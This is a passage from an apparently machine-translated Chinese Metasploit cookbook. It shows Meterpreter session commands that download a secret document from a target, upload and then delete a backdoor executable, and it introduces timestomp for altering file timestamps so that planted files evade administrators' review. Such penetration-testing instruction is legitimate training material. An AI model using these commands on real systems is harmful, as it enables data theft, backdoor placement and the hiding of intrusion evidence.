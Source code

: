 通过使用 `download`命令，我们可以成功地将任何文件从目标机器下载到我们的机器上。 `d:\secret.doc`文件被下载到我们攻击机器的 `root`文件夹中。

同样，我们可以使用 `upload`命令将任何文件发送到目标机器：

```
meterpreter > upload /root/backdoor.exe d:\
[*] uploading : /root/backdoor.exe -> d:\
[*] uploaded : /root/backdoor.exe -> d:\\backdoor.exe 
```

最后，我们可以使用 `del`命令从目标机器上删除文件或目录。

```
meterpreter > del d:\backdoor.exe 
```

## 它是如何工作的。。。

MeterMeter 通过设置交互式命令提示符，使我们能够完全访问目标机器。我们也可以删除 shell 会话以在默认的 windows DOS 模式下工作，但它没有那么多功能。这是对 MeterMeter 的一些重要文件系统命令的快速参考，它可以帮助我们探索目标机器上存在的文件。还有更多的命令；建议您尝试一下，找出可能存在的各种可能性。

在下一个配方中，我们将看到一个非常有趣的 MeterMeter 命令，名为 `timestomp`，可用于修改目标机器上的文件属性。

# 使用 timestomp 更改文件属性

在前面的配方中，我们了解了一些重要而有用的 MeterMeter 文件系统命令，这些命令可用于在目标机器上执行各种任务。MeterMeter 包含另一个名为 `timestomp`的有趣命令。此命令用于更改文件的**修改的已访问已创建条目（MACE）**属性。属性值是文件发生任何 MACE 活动的日期和时间。使用 `timestomp`命令，我们可以更改这些值。

## 准备好了吗

在开始烹饪之前，你可能会想到一个问题。为什么要更改 MACE 值？黑客通常使用更改 MACE 值的技术，以使目标用户感觉文件已在系统上存在很长时间，并且未被触摸或修改。如果有可疑活动，管理员可能会检查最近修改的文件，以确定是否有任何文件已被修改或访问。因此，使用此技术，文件将不会出现在最近访问或修改的项目列表中。尽管还有其他技术，但要确定文件属性是否已被修改，此技术仍然很方便。

让我们从目标机器中提取一个文件并更改其 MACE 属性。下面的屏幕截图显示了使用 `timestomp:`之前文件的各种 MACE 值

![Getting ready](img/7423_05_03.jpg)
